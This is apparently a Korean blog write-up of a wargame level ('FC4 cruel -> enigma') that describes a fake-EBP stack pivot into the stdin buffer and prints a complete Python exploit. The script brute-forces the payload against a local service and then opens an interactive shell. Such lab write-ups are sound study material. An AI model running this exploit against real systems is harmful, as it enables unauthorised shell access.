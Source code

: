 ```yaml
---
title: FC4 cruel -> enigma
slug: fc4-cruel
date: 2017-01-07 03:05:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


ret 영역 다음에 canary가 있다는 걸 생각하야 한다.

fake ebp를 이용해서 stdin의 임시버퍼 영역을 공략한다.

이 영역의 주소가 계속 바뀌긴 하지만 경우의 수가 겨우 256가지뿐이다.

특정한 주소로 공격하면 256분의 1의 확률로 공격에 성공할 수 있다.

난 execl을 호출해서 쉘을 따려고 했는데 계속 안됐다... execve는 되던데

아래는 익스플로잇 코드

```python
#!/usr/bin/python
from struct import pack
from socket import *
from time import sleep

p = lambda x : pack('<L', x)

fake_ebp  = 0xb7f5e000 + 260 + 4 * 2
leave_ret = 0x0804858e
canary    = 0x00031337
execve    = 0x00832abc
binsh     = 0x008bd987

null         = 0x00000000
null_ptr     = fake_ebp + 4 * 7
null_ptr_ptr = fake_ebp + 4 * 6

buffer = 'A' * 256
dummy  = 'A' * 4

payload  = buffer + dummy
payload += p(fake_ebp) + p(leave_ret) + p(canary)
payload += p(execve) + dummy + p(binsh) + p(null_ptr_ptr) + p(null_ptr_ptr)
payload += p(null_ptr) + p(null)
payload += '\n'

for i in xrange(1000):
    print i

    s = socket(AF_INET, SOCK_STREAM)
    s.connect(( 'localhost', 7777 ))
    s.recv(1024)
    s.send(payload)
    sleep(0.1)

    s.send('id\n')
    if s.recv(1024):
        while True:
            try:
                s.send(raw_input('$ ') + '\n')
            except EOFError:
                s.close()
                break
            print s.recv(1024)
        break
    s.close()
```

